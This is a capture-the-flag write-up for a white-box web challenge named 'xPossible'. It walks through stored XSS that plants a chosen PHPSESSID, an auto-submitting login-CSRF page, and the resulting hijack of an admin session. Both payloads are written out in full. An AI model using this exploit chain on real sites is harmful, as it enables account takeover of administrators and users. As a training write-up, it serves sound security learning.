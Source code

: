 # Exploit `xPossible` challenge

## Source
- [challenge source](https://github.com/VoorivexTeam/white-box-challenges/tree/main/xPossible)

## WriteUp

- login to your user, `user`:`pass`
- update your profile
- `name`:
```html
<script>document.cookie="PHPSESSID=7dfd308acefd139c2e834742b2a1fc67; path=/;";window.location='?logout';</script>
```
this payload will set a valid session id that we have, put your session id, (`PHPSESSID` is in your `cookies`)

- submit your profile
- create another page with this code
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login Redirector</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            max-width: 600px;
            margin: 0 auto;
            padding: 20px;
            line-height: 1.6;
        }
        .login-form {
            display: none; /* Hide the form */
        }
    </style>
</head>
<body>
    <h1>Login to xPossible</h1>
    
    <!-- Method 1: Form submission -->
    <div class="login-form">
        <h2>Method 1: Direct Form Submission</h2>
        <form id="loginForm" action="http://mysite.com:10000/index.php" method="POST">
            <input type="text" name="username" placeholder="Username" value="user" required>
            <input type="password" name="password" placeholder="Password" value="pass" required>
            <input type="hidden" name="login" value="1">
            <button type="submit">Login</button>
        </form>
    </div>

    <script>
        // Automatically submit the form when page loads
        window.onload = function() {
            document.getElementById('loginForm').submit();
        };
        //"<script>document.cookie="PHPSESSID=7dfd308acefd139c2e834742b2a1fc67; path=/;";window.location='?logout';</script>"
    </script>
</body>
</html>

```
code will login to your account and make that XSS payload run, when the `victim` visit this page, will login to your account, and logout base on your XSS

- give this page to a admin, when the admin visit this page, will logged in to your account, make the XSS to run, and then logged out
- next time the admin logged in to his/her account, the data will be saved on the session that you wrote with your XSS
- just put the `PHPSESSID` in your `cookies` and you are in admin account.

